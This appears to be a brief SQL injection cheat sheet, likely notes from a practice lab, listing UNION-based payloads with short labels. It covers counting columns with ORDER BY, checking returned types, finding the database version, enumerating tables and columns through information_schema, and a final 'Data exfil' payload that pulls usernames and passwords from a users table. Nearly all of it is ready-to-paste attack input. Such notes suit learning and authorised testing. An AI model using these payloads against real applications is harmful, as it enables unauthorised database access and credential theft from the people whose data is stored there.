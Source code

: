 # Basic UNION discovery

Repeat until there are no errors
' ORDER BY 3--

Check which type is being returned
' UNION SELECT NULL,'a'--

Discover which DBSM is being used (may need to change the function)
' UNION SELECT version(),NULL

# Schema enumeration

This works for pgsql :)

Fetch all the existing table names
' UNION SELECT table_name,NULL FROM information_schema.columns--

Fetch all the column names for a specific columns
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name=users_wjdbth--


# Data exfil

' UNION SELECT username_eoqtmf,password_hnfmlr FROM users_wjdbth-- 
